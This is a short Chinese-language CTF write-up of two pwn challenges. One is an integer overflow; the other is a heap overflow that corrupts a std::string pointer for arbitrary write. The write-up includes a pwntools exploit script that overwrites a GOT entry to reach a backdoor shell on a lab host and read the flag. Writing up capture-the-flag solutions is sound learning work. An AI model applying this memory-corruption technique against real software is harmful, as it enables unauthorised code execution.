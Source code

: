 # KFC crazy Thursday

整形溢出，算一下pow(2,31)//99999=21，随手填个22就过了。

# Buffer overflow in heap

这道题要了解string的结构，如下：
```cpp
struct str{
    union _Bxty { // std::string同一时间只可能是短字符串或长字符串
        char _Buf[16]; // 长度小于16时候用这个
        char* _Ptr; // 长度大于16时候就是指针
        char _Alias[16]; // TRANSITION, ABI: _Alias is preserved for binary compatibility (especially /clr)
    } _Bx;

    std::size_t _Mysize = 0; // 字符串当前长度
    std::size_t _Myres = 0; // 当前字符串最大长度
}
```
所以我们只需要初始化一个长度大于16的字符串，覆盖最靠前的_Ptr即可达到任意地址读/写

因为程序没开随机化和FULL RELRO，可以改会碰到的函数的got表为后门函数直接getshell。

注意几点就是：
- cin默认的分隔符是空格和换行，要保证payload里没这两个字符
- cin>>和gets一样，会把末尾的分隔符替换为\x00，所以请预留好空间，不要让cin的截断覆盖了后边结构体的关键信息。
- 如果不初始化str也是可以的，这样就不需要考虑被覆盖的_Mysize位了


```python
from pwn import *

p = remote("10.20.55.12", 28024)

p.sendlineafter(b":", b"3")
p.sendlineafter(b":", b"b" * 17)  # 先搞个正常的就不用手动伪造了
p.sendlineafter(b":", b"1")
# 这里0x404048 0x404050 和 0x404080 都可以，延迟绑定只要碰到的就能打(?)
p.sendlineafter(b":", b'\x00' * 32 + p64(0x404050)[:-1])  # cin补0，我们不需要
p.sendlineafter(b":", b"3")
p.sendlineafter(b":", p64(0x4016e2))  # 0x4016de 也行，但e2就够og了
p.sendlineafter(b":", b"4")
p.sendlineafter(b"/", b"cat flag.txt")
p.interactive()

```